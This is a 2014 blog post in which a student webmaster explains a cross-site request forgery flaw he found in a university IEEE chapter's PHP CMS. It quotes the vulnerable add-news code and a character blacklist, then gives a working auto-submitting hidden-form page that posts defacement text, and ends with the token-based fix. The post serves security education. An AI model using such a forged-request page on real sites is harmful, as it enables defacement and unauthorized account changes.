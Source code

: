 ```yaml
---
layout: post
date: 2014-09-11
title: Abusing Admin Privileges via CSRF
categories: web security hacking
comments: true
---
```


*Exploiting a classic CSRF vulnerability*

When I took over responsibility as the webmaster for
[Northeastern University's IEEE student chapter](http://www.ieee.neu.edu) around
January 2014 (yes, this is a very belated post), I was suddenly reponsible for
maintaining a custom LAMP stack Content Management System (CMS) whose core
functionality was letting an admin post to a news feed on the front page of the
site.
This site has since been completely redone, but given that it is notoriously
difficult to program securely in PHP, I decided to poke around a little and
see if I could find any cool bugs.

Initially, I started looking for the most blatant web vulns, SQLi and XSS, but
was pleasantly surprised to find in the `register.php` file, for example, that
handles user registration, to find a input sanitation check.

{% highlight php startinline %}
if ((isValid($_POST['newusername']))&&(isValid($_POST['newpassword'])))
{
    // continue with registration
}
{% endhighlight %}

where `isValid()` looks like

{% highlight php startinline %}
function isValid($varx)
{
    $valid = true;
    $bad_stuff = array("#","(",")","<",">","?","/","\\","[","]","|","$","'",":",";", "@");
    for($index = 0; $index < strlen($varx); $index++) {
        if(in_array(substr($varx,$index,1), $bad_stuff)) {
            $valid = false;
        }
    }
    if(substr($varx, 0, 1) == " ") {
        $valid = false;
    }
    return $valid;
}
{% endhighlight %}

This code has a pretty substantial blacklist of commonly used characters in
injections and operates by iterating over each character of the questionable
input and testing if the character is in the blacklist, if so, setting the
`$valid` variable to false. This seems to be an effective technique at ensuring
the input is safe to use, however OWASP tends to [discourage](https://www.owasp.org/index.php/Data_Validation#Data_Validation_Strategies)
this model.

After ruling this out of potential vulns, I looked a little deeper into the code
that powered the posting of news to the website, `add-news.php`.

Here we can see that if the HTTP request is a "POST" and the PHP session variables
"isadmin" and "isofficer" are set to "yessir" and "true" respectively, then
the code that adds news gets executed.

{% highlight php startinline %}
if ($_SERVER['REQUEST_METHOD'] == "POST")
    {
        include("ieee-lib.php");
        if(isset($_SESSION['isadmin']) || isset($_SESSION['isofficer']))
        {
            if($_SESSION['isadmin'] == "yessir" || $_SESSION['isofficer'] == "true")
            {
                // add news
{% endhighlight %}

After these access checks pass, the POST request data is processed and
ultimately a SQL query string is generated.

{% highlight php startinline %}
// continued from above
$title = htmlspecialchars($_POST['news_title'], ENT_QUOTES);
$text = htmlspecialchars($_POST['post'], ENT_QUOTES);
{ ... } // some omitted stuff
$user_query = "SELECT user_id, username FROM " . $INFO['sql_prefix'] . "users WHERE username = '" . $_SESSION['username'] . "'";
$user_result = mysql_query($user_query);
if($user_result)
{
    //Returns an array with the data from the SQL select statement
    $user_row = mysql_fetch_row($user_result);

    $query1 = "INSERT INTO " . $INFO['sql_prefix'] . "news (news_title, news_type, time_posted, time_meeting, news_body, author_id, author_name, meeting_location) ";
    $query2 = "VALUES ('" . $title . "', '" . $type_of_news . "', '" . time() . "', '" . $time_of_meeting . "', '" . $text . "', '" . $user_row[0] . "', '" . $user_row[1] . "', '" . $meetinglocation . "')";
    $add_news_query = $query1 . $query2;
    $add_news_result = mysql_query($add_news_query);

    if($add_news_result)
    {
        header('Location: http://www.ieee.neu.edu/?page=addnews&success=true');
    }
    else
    {
        header('Location: http://www.ieee.neu.edu/?page=addnews&error=unable_to_post_news');
    }
}
// done
{% endhighlight %}

The important part to notice here is that there is no code that ensures the
legitimacy of the request, that is, that a currently authenticated admin
user actually meant to make this request. In this scenario if we can somehow
find a way to get the admin to
submit an arbitrary POST request to the `add-news.php` page, since she already
has the session all set up in her browser, we can bypass the session checks
previously shown and add arbitrary news to the website, for example.

You might be wondering how we can get the admin to submit arbitrary POST requests
without her noticing. The most obvious answer is physical access to the her
machine while she's away or something, but a much more realistic scenario
would be if we would get the admin
to browse to a web page that we (the attacker) control, we can use some nifty
JavaScript magic to get her to automatically submit the proper POST request
on our behalf.

This is called [Cross Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)).

It turns out that these types of malicious pages are actually very simple
to write. Remember, all that's really needed is JavaScript execution, so
for example if you had previous knowledge of a site that the admin frequented
that had an XSS vulnerability, that would be a perfect way to chain these attacks.
Anyway, here's an example malicious page [^1].

{% highlight html %}
<!DOCTYPE HTML>
<html>
<body>
    <h1>non-malicious website! :)</h1>
    <form id="thisform" action="http://www.ieee.neu.edu/add-news.php" method="POST"
          style="display:none;">
        <input type="text" name="news_title" value="breaking news: u got hacked" />
        <input type="text" name="post" value="insert website defacement here" />
        <input type="submit"/>
    </form>
    <script type="text/javascript" charset="utf-8">
        var frm = document.getElementById("thisform");
        frm.submit();
    </script>
</body>
</html>
{% endhighlight %}

Nothing fancy here, just a simple hidden form with the values you want to submit
to the page, and some JS that submits the form.

A caveat: Yes, it is true that you would
have to guess the proper field names ("posts", "news_title") but even if you can
only guess "posts", you can write anything into the body of the news post.

End result looks something like this.

![](/images/ieee_csrf.gif)

There was an identical bug in the code that handles editing users. Let's
have some fun!

![](/images/ieee_csrf2.gif)

In both of these gifs, the admin user was logged in, and then they opened
a malicious html file, simulating visiting a malicious website. The mere act of
opening the web page triggered the payload which sent the POST to the server,
adding the news, and changing the user.

So how do we fix this sort of thing? The most common way involves the server
requiring a randomly generated, non-predictable token that is associated with
the user session with each request. An example could be that every time the
actual admin web interface form is loaded, it contains a hidden field, invisible
to the admin, with this token that is sent along with the request. The server
verifies that it sent this token out previously, and that the token hasn't expired,
and if everything else checks out, the request goes through.
This crucial missing piece of information will prevent attackers from
successfully faking requests as the authenticated user.

[^1]: For more examples of how to trigger your CSRF payload via JavaScript, check out the excellent [Ruby on Rails Security Guide](http://edgeguides.rubyonrails.org/security.html#cross-site-request-forgery-csrf)
